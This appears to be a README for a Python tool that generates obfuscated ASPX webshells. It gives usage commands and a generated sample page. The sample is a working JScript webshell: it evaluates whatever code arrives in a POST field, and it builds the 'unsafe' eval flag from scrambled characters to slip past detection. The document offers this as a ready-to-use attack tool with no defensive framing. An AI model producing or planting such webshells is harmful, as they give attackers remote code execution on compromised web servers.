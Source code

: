 ##使用方法

`python3 aspx_venom.py`

保存:

`python3 aspx_venom.py >  test.aspx`

生成样例:
```
<%@ Page Language="Jscript" Debug=true%>
<%
var qYfz='yLMTWpiPKslvUIbcAewaZzErjYoXJhQFqtCkBVGOHDNSuxgfdmnR';
var nlfm=Request.Form("mr6");
var tNmx=a(12)+a(42)+a(9)+a(16)+a(31)+a(17);
eval(nlfm,tNmx);
%>
```
